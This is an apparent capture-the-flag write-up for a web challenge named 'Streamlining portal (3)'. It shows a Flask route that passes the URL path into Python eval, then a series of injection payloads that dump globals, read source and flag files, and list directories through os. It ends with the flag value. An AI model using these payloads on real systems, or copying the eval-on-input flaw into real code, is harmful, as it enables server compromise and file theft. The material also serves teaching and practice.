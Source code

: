# Streamlining portal (3)

Hi, packet inspector,

the AI is preparing some kind of employee streamlining portal on [http://user-info.mysterious-delivery.tcc](http://user-info.mysterious-delivery.tcc). We fear this will lead to more lost packages.

Your task is to break into the web and find interesting information on the server.

May the Packet be with you!

**==Note: Solving this challenge will open 1 new challenge.==**

## Hints

- Use VPN to get access to the web.

## Solution

After a while I noticed that the url path after "/hello" is being output to html.

![python injection](python-injection.gif)

After trying one double quote (`"`), we got http error 500. That means something, there is probably a string concatenation.

![error](internal-server-error.png)

`" + str(globals()) + "` successfully returns a dictionary of the current global symbol table. We can also see `/app/app.py`.

![globals](globals.png)

`" + str(open("/app/app.py").read()) + "` returns the actual code of the page. As I said, it is a string concatenation and the entire string is a parameter in the eval function.

```py
from flask import Flask, Blueprint, redirect, render_template

bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__) app.register_blueprint(bp, url_prefix="/")
    return app @bp.route('/hello/<path:userstring>')

def hello(userstring):
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')

def redirect_to_user():
    return redirect("/hello/user", code=302)
```

This payload `" + str(eval(str(exec("import os;x=os")))) + str(x.listdir("/app")) + "` should return directories and files in `/app` directory.

![listdir("/app")](listdir-1.png)

It returned `FLAG` directory so let's apply the same method for this directory.

`" + str(eval(str(exec("import os;x=os")))) + str(x.listdir("/app/FLAG")) + "`

![listdir("/app/FLAG")](listdir-2.png)

`" + str(open("/app/FLAG/flag.txt").read()) + "`

![flag](flag.png)

`FLAG{OONU-Pm7V-BK3s-YftK}`
